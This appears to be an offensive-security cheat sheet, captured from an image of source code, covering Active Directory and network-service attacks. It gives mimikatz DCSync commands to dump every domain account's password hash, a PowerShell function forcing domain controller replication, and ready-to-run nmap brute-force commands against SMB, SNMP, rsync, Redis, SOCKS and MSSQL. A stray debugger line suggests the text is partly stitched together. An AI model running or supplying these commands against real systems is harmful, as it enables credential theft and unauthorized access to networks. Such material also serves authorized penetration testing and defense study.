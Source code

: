 #----------------------------------------------
# DC SYNC METHOD
# Dump the password hashes of every account in the AD domain without logging in to a domain controller
mimikatz.exe
# Start replication, the /user option defines the target user to sync
lsadump::dcsync /user:Administrator
# OR
lsadump::dcsync /domain:osbornepro.com /user:rosborne

# PowerShell Function to Force Replication
Function Replicate-AllDomainController {
    (Get-ADDomainController -Filter *).Name | Foreach-Object {repadmin /syncall $_ (Get-ADDomain).DistinguishedName /e /A | Out-Null}
    Start-Sleep 10; Get-ADReplicationPartnerMetadata -Target "$env:USERDNSDOMAIN" -Scope Domain | Select-Object -Property Server, LastReplicationSuccess
}  # End Function

Replicate-AllDomainController

debugger eval code:1:62
# SMB BRUTE
nmap --script smb-brute -p 445 10.0.0.1

# SNMP BRUTE
nmap -sU --script snmp-brute 10.0.0.1 --script-args snmp-brute.communitiesdb=wordlist.txt

# RSYNC BRUTE
nmap -sV --script rsync-brute --script-args userdb=user.txt,passdb=pass.lst -p 873 10.0.0.1

# REDIS BRUTE
nmap --script redis-brute -p 6379 10.0.0.1

# SOCKS BRUTE
nmap  -vvv -sCV --script socks-brute --script-args userdb=user.txt,passdb=pass.lst,unpwndb.timelimit=30m -p 1080 10.0.0.1

# MSSQL BRUTE
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=osbornepro.com,userdb=user.txt,passdb=pass.lst,ms-sql-brute.brute-windows-accounts 10.0.0.1

